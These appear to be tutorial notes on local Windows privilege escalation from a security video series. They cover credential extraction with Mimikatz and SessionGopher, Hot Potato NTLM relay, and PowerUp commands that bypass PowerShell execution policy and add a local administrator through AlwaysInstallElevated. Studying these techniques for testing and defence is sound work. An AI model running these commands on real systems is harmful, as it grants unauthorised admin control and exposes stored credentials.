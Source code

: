 Windows Privilege Escalation (Local) – Tradecraft Security Weekly #2

# Admin Access Should Be Rare
- Standard employees should not have administrative access to their systems
- It's common for remote workers to get admin access of their systems for troubleshooting purposes
- Network admins not only need to worry about provisioning access correctly. They need to worry about privesc vulns
# So what if users are admins?
- Leads to many other attack vectors
- Can extract local password hashes - potential for local admin reuse
- Can perform network level as an admin of the system like LLMNR/NBS poisoning
- Packet capturing localhost
- Can install software 
- Can extract cleartext creds from memory - Mimikatz
# Common PrivEsc Techniques
- Check for missing patches (on the target)
```
C:\> wmic qfe get Caption,Description,HotFixID,InstalledOn
```
- Then check exploit-db
```
# searchsploit MS16 windows local
```
- Browser Creds (enum_ie, enum_chrome, etc..)(Metasploit)
- SessionGopher - find Putty, WinSCP, RDP, cred (FireEye)
- Hot Potato (foxglovesec)
	- NBNS spoof, fake WPAD proxy, HTTP>NTLM Relay
- PowerUp
	- Checks many things including: hijackable DLLs,Unattended install files, modifiable services, unquoted service paths, AlwaysInstallElevated, and more...
# PowerUp
an admin?
```
C:\ net localgroup administrators
C:\ powershell.exe -exec bypass
PS C:> Import-Module .\PowerUp.ps1
PS C:> Invoke-AllChecks
```
found AlwaysInstallElevated vuln
```
PS C:> Write-UserAddMSI
```
![1b2a8a326c9f55763be61cdd08c11739.png](../_resources/ceb0173c80d5445790dca4c0b84817b7.png)
may have to modify password to meet complexity requirements
validate that user is created.
```
PS C:> net localgroup administrators
```




























